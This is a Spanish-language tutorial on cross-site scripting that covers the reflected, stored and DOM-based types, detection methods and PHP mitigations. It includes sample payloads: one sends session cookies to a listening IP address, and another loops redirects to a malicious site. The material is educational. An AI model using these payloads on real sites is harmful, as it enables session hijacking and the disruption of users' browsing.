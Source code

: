 
# XSS

(Cross-Site Scripting)

## ¿Que es el XSS?

Cross-site scripting (también conocido como XSS) es una vulnerabilidad común de la seguridad web que permite a un atacante inyectar código malicioso en una página web.

## ¿Cómo funciona XSS?

---

El Cross-site scripting funcionan mediante la manipulación de un sitio web vulnerable para que devuelva JavaScript malicioso a los usuarios. Cuando el código malicioso se ejecuta dentro del navegador de la víctima, el atacante puede comprometer completamente su interacción con la aplicación.

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled.png)

## ****¿Cuáles son los tipos de ataques XSS?****

### XSS Reflected

---

tipo de vulnerabilidad web que ocurre cuando un atacante inyecta código malicioso en una página web que luego es reflejado de vuelta al usuario a través de un error de validación en la entrada de datos. Esto significa que el código malicioso se ejecuta en el navegador del usuario en lugar de en el servidor web.

Aqui podemos ver un ejemplo de XSS que con un alert nos saque la cookie de sesión

```bash
<script>
    alert(document.cookie);
</script>
```

### XSS Stored

---

Es un tipo de vulnerabilidad web que permite a un atacante inyectar código malicioso en una página web que luego se almacena en una base de datos o en el almacenamiento local del navegador del usuario. Este tipo de vulnerabilidad es más peligroso que el XSS Reflected, ya que el código malicioso se ejecuta en todos los navegadores que acceden a la página web y no solo en el navegador del usuario que realizó la acción.

este en si lo que se encarga es de hacer una continua redirección a un sitio malicioso y llegando a afectar a la disponibilidad.

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Este ataque por XSS lo que se encarga es de enviar la cookie de sesión a la ip 192.168.1.135 que tendremos un puerto abierto en modo de escucha.

```bash
<script>new Image().src="http://192.168.1.135/bogus.php?output="+document.cookie;</script>
```

### XSS DOM

---

El XSS (Cross-Site Scripting) basado en el DOM (Document Object Model) es un tipo de ataque XSS que aprovecha las vulnerabilidades en la forma en que el navegador web procesa y renderiza el código HTML y JavaScript. En este tipo de ataque, el código malicioso se inyecta en una página web a través de una entrada de usuario no validada, como un formulario de entrada de datos, y luego se ejecuta en el navegador de la víctima cuando se carga la página.

```bash
<script>
var mensaje = document.createElement('h2');
mensaje.innerHTML = '¡Hola desde un ataque XSS basado en el DOM!';
document.body.appendChild(mensaje);
</script>
```

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%201.png)

## Formas de detectar vulnerabilidades XSS

Existen multitud de formas para detectar vulnerabilidades XSS en una aplicación web como por ejemplo.

Escaneo automático: existen herramientas de escaneo automático de vulnerabilidades que pueden ayudar a detectar vulnerabilidades XSS. Estas herramientas realizan pruebas automatizadas de inyección de código en los formularios y campos de entrada de la aplicación, y pueden informar sobre las vulnerabilidades detectadas.

Análisis de código fuente: otra forma de detectar vulnerabilidades XSS es mediante el análisis del código fuente de la aplicación. Algunas herramientas de análisis estático de código pueden identificar patrones y fragmentos de código que son propensos a vulnerabilidades XSS.

Pruebas de penetración: las pruebas de penetración son un enfoque más exhaustivo para detectar vulnerabilidades XSS. Los expertos en seguridad pueden realizar pruebas de penetración para simular ataques XSS reales en la aplicación y determinar su nivel de riesgo.

etc.

Es importante recordar que la detección de vulnerabilidades XSS es solo una parte de un programa de seguridad completo. También es importante tomar medidas para remediar las vulnerabilidades detectadas y establecer políticas y procedimientos de seguridad adecuados para prevenir futuros ataques XSS.

## formas de securizar estos errores.

---

## XSS Reflected

Aqui tenemos una forma de securizar un XSS reflected

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%202.png)

Primero, se verifica si existe un token Anti-CSRF y se comprueba si el token del usuario coincide con el token de sesión almacenado. Esto ayuda a prevenir ataques CSRF (Cross-Site Request Forgery) que intentan engañar al usuario para que realice acciones no deseadas en su sitio web.

Luego, el valor del parámetro “name” es almacenado en una variable llamada “$name” y se utiliza la función “htmlspecialchars” para escapar cualquier carácter especial y evitar posibles vulnerabilidades XSS (Cross-Site Scripting) que podrían ser explotadas por atacantes.

Finalmente, se muestra un mensaje en pantalla que contiene el valor del parámetro “name” para el usuario.

También hay una función llamada “generateSessionToken” que se encarga de generar un token Anti-CSRF único para la sesión actual del usuario.

## XSS stored

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%203.png)

Este código PHP procesa un formulario de entrada que contiene un mensaje y un nombre de usuario. Si se envía el formulario (el botón “btnSign” es presionado), el código realiza lo siguiente:

Verifica si hay un token Anti-CSRF y comprueba si el token del usuario coincide con el token de sesión almacenado para prevenir ataques CSRF. Recupera el valor de los campos de entrada del formulario, “mtxMessage” y “txtName”. Sanitiza los valores ingresados por el usuario para evitar posibles vulnerabilidades XSS y SQL injection. Para esto, se eliminan las barras invertidas adicionales en el valor del campo y se escapan los caracteres especiales utilizando la función htmlspecialchars. Además, se utiliza la función mysqli_real_escape_string para escapar cualquier carácter especial en la entrada del usuario. Inserta el mensaje y el nombre de usuario en la base de datos utilizando una consulta preparada.

---

## Anexos

### [Cross-site scripting(XSS)](https://portswigger.net/web-security/cross-site-scripting)

### [XSS Reflected](https://portswigger.net/web-security/cross-site-scripting/reflected)

### [XSS Stored](https://portswigger.net/web-security/cross-site-scripting/stored)

### [XSS DOM](https://portswigger.net/web-security/cross-site-scripting/dom-based)

### [OWASP](https://owasp.org/www-community/attacks/xss/)

